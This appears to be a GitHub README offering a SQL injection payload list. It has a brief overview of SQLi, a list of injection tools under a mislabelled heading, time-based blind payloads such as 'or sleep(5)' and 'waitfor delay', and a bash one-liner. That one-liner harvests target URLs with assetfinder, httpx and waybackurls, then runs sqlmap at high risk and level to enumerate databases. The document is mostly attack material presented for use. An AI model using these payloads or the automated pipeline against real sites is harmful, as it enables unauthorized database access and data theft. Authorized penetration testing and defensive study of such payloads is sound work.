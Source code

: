 ### SQL Injction ( SQLI ) Payload List
### Created By Anonre

##### Overview : 

SQL injection is a code injection technique that might destroy your database. SQL injection is one of the most common web hacking techniques. SQL injection is the placement of malicious code in SQL statements, via web page input.
#### XSS Vulneability Scanner Tool's :

SQLMap - Automatic SQL Injection And Database Takeover Tool
jSQL Injection - Java Tool For Automatic SQL Database Injection
BBQSQL - A Blind SQL Injection Exploitation Tool
NoSQLMap - Automated NoSQL Database Pwnage
Whitewidow - SQL Vulnerability Scanner
DSSS - Damn Small SQLi Scanner
explo - Human And Machine Readable Web Vulnerability Testing Format
Blind-Sql-Bitshifting - Blind SQL Injection via Bitshifting
Leviathan - Wide Range Mass Audit Toolkit
Blisqy - Exploit Time-based blind-SQL injection in HTTP-Headers (MySQL/MariaDB)


#### SQLI Payload List :

```
---------------------------------------------------------------------------------
<!-- Project Name  : SQL Injction ( SQLI ) Vulnerability Payload List -->
<!--        Author : Joel Indra -->
<!--      Linkedin : https://www.linkedin.com/in/joelindra/ -->
<!--        GitHub : https://github.com/anonre/ -->
<!--       Twitter : https://twitter.com/joelindra -->
---------------------------------------------------------------------------------
---------------------------------------------------------------------------------

" or sleep(5)="
' or sleep(5)='
1) or sleep(5)#
") or sleep(5)="
') or sleep(5)='
1)) or sleep(5)#
")) or sleep(5)="
')) or sleep(5)='
;waitfor delay '0:0:5'--
);waitfor delay '0:0:5'--

```
#### SQLI Automation Bash Scripting Exploit :
```
cat target.txt | assetfinder | httpx -silent | waybackurls | tee -a potential.txt ; gf sqli potential.txt >> sqli.txt ; sqlmap -m sqli.txt --dbs --batch --risk 3 --level 3
```
